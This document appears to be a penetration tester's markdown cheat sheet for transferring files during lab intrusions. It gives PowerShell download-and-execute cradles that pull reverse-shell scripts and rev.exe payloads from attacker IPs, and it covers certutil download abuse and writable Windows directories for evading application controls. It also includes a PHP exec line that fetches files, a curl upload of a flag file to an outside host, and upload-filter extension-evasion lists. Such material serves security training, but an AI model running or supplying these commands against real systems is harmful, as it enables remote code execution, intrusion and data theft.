 # Linux

wget http://IP:PORT/FILE
# python 
python -m SimpleHTTPServer
python3 -m http.server

## http sever saves POST request data

```python
#!/usr/bin/python 
import SimpleHTTPServer
import BaseHTTPServer class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler): 
def do_PUT(self):
	print self.headers
	length = int(self.headers["Content-Length"]) 
	path = self.translate_path(self.path) 
	with open(path, "wb") as dst: 
	    dst.write(self.rfile.read(length)) 

    
 if __name__ == '__main__': 
	SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```




# Windows 

## Writable Directories
```
C:\Windows\Tasks 

C:\Windows\Temp 

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

## Powershell
```powershell
# Download and execute files
Powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7/poc.ps1')"

IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5/inv.ps1')
IEX(IWR http://10.10.14.10:9999/ Invoke-PowerShellTcp.ps1 -UseBasecParsing)
# download files
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.8/PowerUp.ps1','powerup.ps1')
Invoke-WebRequest -Uri 10.10.16.4/winpeas.bat -OutFile winpeas.bat

IWR -Uri http://10.10.16.19/rev.exe -OutFile rev.exe
IWR -Uri http://10.10.16.7/rev.exe -OutFile rev.exe
Invoke-WebRequest -Uri 10.10.16.7/shell.ps1 -OutFile shell.ps1
Invoke-WebRequest -Uri 10.10.16.7/test.ps1 -OutFile test.ps1
````


## Certutil
```bash
certutil -urlcache -f http://IP/FILE OUTPUTFILENAME
```

## SMB

### copy

![[SMB 443,139#SMB server]]
### connect smb windows powershell

```powershell


$pass = convertto-securestring '1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('alfred', $pass)
New-PSDrive -Name super -PSProvider FileSystem -Credential 
$cred -Root \\10.10.17.185\super

# add $pass variable with the share password 1234
# add $cred with the share creds username: super password: $pass variable
# New-PSDrive mount share

```
### Mount share

```
net use z: \\10.10.10.10\SHARENAME
```

# php
```php
<?php echo exec("powershell -command \"(New-Object System.Net.WebClient).DownloadFile('http://10.10.17.185/FILE_NAME','OUT_FILE_NAME')\""); ?>
```

```powershell
powershell Invoke-WebRequest -Uri http://10.10.16.4/winpeas.bat -OutFile winpeas.bat

powershell Invoke-WebRequest -Uri http://10.10.16.4/reverse.exe -OutFile ke.exe

```

	# scp 
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:
SCP -i KEY FILE user@target:/tmp/FILE:
-i for ssh key
P - Specifies the remote host ssh port.
-p - Preserves files modification and access times.
-q - Use this option if you want to suppress the progress meter and non-error messages.
-C - This option forces scp to compresses the data as it is sent to the destination machine.
```bash
scp [OPTION] [user@]SRC_HOST:]file1 user@target:/tmp/FILE:

scp charix@10.10.10.84:secret.zip . # getting secret.zip from charix usuer

```
# Curl
```bash
# Upload file with curl
curl DEST_IP --upload-file FILE
curl 192.77.184.2 --upload-file flag.zip
```





# FTP
```
python -m pyftpdlib -p 21 --write # on attacker
ftp 10.10.10.10
```



```
Invoke-WebRequest -Uri http//192.168.181.128/linPEAS.ps1 -OutFile
File C:\Users\administrator\Documents\WindowsPowerShell\Modules\Recon\adPEAS.ps1
```

# Extension evasion

**File Upload General Methodology**
Other useful extensions:
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, phar .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

  Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action
Coldfusion: .cfm, .cfml, .cfc, .dbm
Flash: .swf
Perl: .pl, .cgi
Erlang Yaws Web Server: .yaws




 